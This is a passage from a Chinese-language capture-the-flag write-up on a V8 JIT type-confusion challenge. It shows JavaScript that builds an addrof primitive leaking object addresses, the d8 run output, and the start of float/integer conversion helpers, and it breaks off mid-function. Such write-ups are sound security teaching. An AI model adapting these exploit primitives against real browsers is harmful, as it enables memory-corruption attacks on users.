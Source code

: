 猜测正确

### addrof

那我们可以直接根据上面的代码改一改，构造一个addrof原语：

```javascript
function foo(a){
    let x = 1;
    let y = 1.1;
    x += 1;
    y += 2.2;
    return a[0];
}

var zoo = [1.1,2.2,3.3,4.4,5.5];
var bar = [zoo,zoo,zoo,zoo];

%DebugPrint(zoo);

for(var i = 0;i < 60000;i++)
    foo(zoo);
console.log(foo(bar));
```

输出：

```cpp
PS D:\shared\pwn2win_2020\pwn-OmniTmizer\files\x64.release> .\d8.exe  --allow-natives-syntax .\test.js
DebugPrint: 0000033A080855D5: [JSArray]
// [.......................................]
5.757981678926115e-270
```

转换一下最后的输出：

```cpp
>>> hex(struct.unpack("<q",struct.pack("<d",5.757981678926115e-270))[0])
'0x80855d5080855d5'
```

可以看到我们成功的把zoo的地址泄露了出来，嘿嘿

封装一下：

```javascript
var format_buffer = new ArrayBuffer(16);
var float64 = new Float64Array(format_buffer);
var bigUint64 = new BigUint64Array(format_buffer);

function f2i(f){
    float64[0] = f;
    return bigUint64[0];
}

function i2f(i){
    bigUint64[0] = i;
    return float64[0];
}

function hex(value){
    return "0x" + value.toString(16);
}

var zoo = [1.1,2.2,3.3,4.4,5.5];
var bar = [zoo,zoo,zoo,zoo];

function foo(a){
```